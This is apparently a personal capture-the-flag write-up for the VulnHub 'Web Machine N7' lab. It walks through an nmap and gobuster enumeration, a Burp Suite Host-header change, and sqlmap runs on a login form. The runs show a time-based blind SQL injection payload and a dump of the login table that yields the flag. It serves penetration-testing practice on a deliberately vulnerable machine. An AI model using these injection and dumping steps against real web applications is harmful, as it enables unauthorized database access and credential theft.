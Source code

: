 
VM details:  
[https://www.vulnhub.com/entry/web-machine-n7,756/](https://www.vulnhub.com/entry/web-machine-n7,756/?ref=rootandbeer.com)

Difficulty: Medium

**Run [[nmap]] -A scan against all TCP ports:**

```bash
┌──(vagrant㉿kali)-[~]
└─$ nmap -p- -A 192.168.5.118                      
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-06 17:31 PDT
Nmap scan report for 192.168.5.118
Host is up (0.011s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.46 (Debian)
```

**Run [[gobuster]] with common file extension checks to discover "exploit.html":**

```bash
┌──(vagrant㉿kali)-[~]
└─$ gobuster dir -u http://192.168.5.118/ -e -r -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x html,htm,asp,aspx,jsp,php,cgi,txt,xml
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://192.168.5.118/.html                (Status: 403) [Size: 278]
http://192.168.5.118/.htm                 (Status: 403) [Size: 278]
http://192.168.5.118/.php                 (Status: 403) [Size: 278]
http://192.168.5.118/index.html           (Status: 200) [Size: 1620]
http://192.168.5.118/profile.php          (Status: 200) [Size: 1473]
http://192.168.5.118/javascript           (Status: 403) [Size: 278]
http://192.168.5.118/exploit.html         (Status: 200) [Size: 279]
```

**Browse to exploit.html & intercept request with Burpsuite. Note that the POST request changes the "Host" header to localhost; change this instead to the target wev server (in this case, 192.168.5.118) to receive the first portion of the flag:**

```
FLAG{N7
```

**Next: cheat & find the /enter\_network/ page by googling for a walkthrough. There doesn't appear to be any other feasible way to find this page..**

**Intercept POST request containing user/pass parameters via Burpsuite, & save this HTTP request to request.txt:**

```
POST /enter_network/ HTTP/1.1
Host: 192.168.5.118
Content-Length: 33
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://192.168.5.118
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*
```

**Feed request.txt to sqlmap and attempt to determine database names, as follows:**

```bash
┌──(vagrant㉿kali)-[~]
└─$ sqlmap -r request.txt --dbs
...
[20:06:56] [INFO] parsing HTTP request from 'request.txt'
[20:06:57] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('role=MjEyMzJmMjk...FmYzM%253D;user=JGFyZ29uMmk...lkMWZSaXlB'). Do you want to use those [Y/n] y
...
[20:07:29] [INFO] POST parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[20:08:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:08:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:08:20] [INFO] checking if the injection point on POST parameter 'user' is a false positive
POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=admin' AND (SELECT 3878 FROM (SELECT(SLEEP(5)))tFqA) AND 'oZEE'='oZEE&pass=password&sub=SEND
---
[20:12:03] [INFO] the back-end DBMS is MySQL
[20:12:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[20:12:03] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:12:16] [INFO] fetching database names
[20:12:16] [INFO] fetching number of databases
[20:12:16] [INFO] retrieved: 4
[20:12:23] [INFO] retrieved: 
[20:12:29] [INFO] adjusting time delay to 2 seconds due to good response times
information_schema
[20:15:00] [INFO] retrieved: Machine
[20:15:54] [INFO] retrieved: mysql
[20:16:38] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] Machine
[*] mysql
[*] performance_schema
...
```

**Dump the tables from the "Machine" database to receive the remainder of the flag:**

``` bash
sqlmap -r request.txt -D Machine --dump
...
20:34:41] [INFO] fetching columns for table 'login' in database 'Machine'
[20:34:41] [INFO] retrieved: 3
[20:34:47] [INFO] retrieved: username
[20:35:27] [INFO] retrieved: password
[20:36:12] [INFO] retrieved: role
[20:36:36] [INFO] fetching entries for table 'login' in database 'Machine'
[20:36:36] [INFO] fetching number of entries for table 'login' in database 'Machine'
[20:36:36] [INFO] retrieved: 1
[20:36:39] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)    
FLAG{N7:KSA_01}
[20:38:16] [INFO] retrieved: admin
[20:38:42] [INFO] retrieved: administ
[20:39:34] [ERROR] invalid character detected. retrying..
[20:39:34] [WARNING] increasing time delay to 2 seconds
rator
Database: Machine
Table: login
[1 entry]
+-------+-----------------+---------------+
| role  | password        | username      |
+-------+-----------------+---------------+
| admin | FLAG{N7:KSA_01} | administrator |
+-------+-----------------+---------------+
```

woot.

---